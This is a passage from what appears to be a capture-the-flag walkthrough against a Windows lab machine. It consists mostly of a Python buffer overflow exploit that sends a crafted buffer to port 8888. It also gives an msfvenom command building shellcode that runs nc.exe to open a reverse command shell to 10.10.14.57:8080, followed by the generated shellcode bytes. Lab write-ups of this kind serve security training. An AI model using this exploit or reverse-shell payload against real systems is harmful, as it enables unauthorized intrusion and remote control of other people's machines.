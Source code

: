 ```python
payload   += b"\x72\xb2\xfa\xd7\xf6\xb7\x47\x50\xea\xc5\xd8\x35\x0c"
payload   += b"\x7a\xd8\x1f\x6f\x1d\x4a\xc3\x5e\xb8\xea\x66\x9f"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun 

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```

It seems we need to create a msfvenom payload and replace the output with the contents of the `payload` variable. Let us do it.

```
┌──(root💀nehal)-[~]
└─# msfvenom -a x86 --platform windows -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.57 8080 -e cmd.exe' -b '\x00\x0A\x0D' -f python > tmp.txt
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 273 (iteration=0)
x86/shikata_ga_nai chosen with final size 273
Payload size: 273 bytes
Final size of python file: 1334 bytes
┌──(root💀nehal)-[~]
└─# sed 's/buf/payload/g' tmp.txt 
payload =  b""
payload += b"\xdb\xd8\xd9\x74\x24\xf4\x5d\xbe\x8a\xf9\xae\xcf\x29"
payload += b"\xc9\xb1\x3e\x31\x75\x19\x03\x75\x19\x83\xed\xfc\x68"
payload += b"\x0c\x52\x27\xee\xef\xab\xb8\x8e\x66\x4e\x89\x8e\x1d"
payload += b"\x1a\xba\x3e\x55\x4e\x37\xb5\x3b\x7b\xcc\xbb\x93\x8c"
payload += b"\x65\x71\xc2\xa3\x76\x29\x36\xa5\xf4\x33\x6b\x05\xc4"
payload += b"\xfc\x7e\x44\x01\xe0\x73\x14\xda\x6f\x21\x89\x6f\x25"
payload += b"\xfa\x22\x23\xa8\x7a\xd6\xf4\xcb\xab\x49\x8e\x92\x6b"
payload += b"\x6b\x43\xaf\x25\x73\x80\x95\xfc\x08\x72\x62\xff\xd8"
payload += b"\x4a\x8b\xac\x24\x63\x7e\xac\x61\x44\x60\xdb\x9b\xb6"
payload += b"\x1d\xdc\x5f\xc4\xf9\x69\x44\x6e\x8a\xca\xa0\x8e\x5f"
payload += b"\x8c\x23\x9c\x14\xda\x6c\x81\xab\x0f\x07\xbd\x20\xae"
payload += b"\xc8\x37\x72\x95\xcc\x1c\x21\xb4\x55\xf9\x84\xc9\x86"
payload += b"\xa2\x79\x6c\xcc\x4f\x6e\x1d\x8f\x05\x71\x93\xb5\x68"
payload += b"\x71\xab\xb5\xdc\x19\x9a\x3e\xb3\x5e\x23\x95\xf7\x90"
payload += b"\x69\xb4\x5e\x38\x34\x2c\xe3\x25\xc7\x9a\x20\x53\x44"
payload += b"\x2f\xd9\xa0\x54\x5a\xdc\xed\xd2\xb6\xac\x7e\xb7\xb8"
payload += b"\x03\x7f\x92\xfa\x99\x23\x65\x9c\xb0\xab\xe5\x02\x23"
payload += b"\x3f\x62\xd4\xd0\xcc\x36\x4d\x6e\x5f\x9b\xe4\xe0\xf3"
payload += b"\x4c\x66\x65\x57\xfd\x0b\x4b\x02\x79\xa9\xb3\xfd\x49"
payload += b"\x1f\x85\xcd\x87\x6e\xd1\x03\xed\xa7\x39\x63\x3d\xf0"
payload += b"\x09\xb3\x10\x65\x4a\xd0\x07\x01\xa4\x73\xa0\xac\xb8"
```
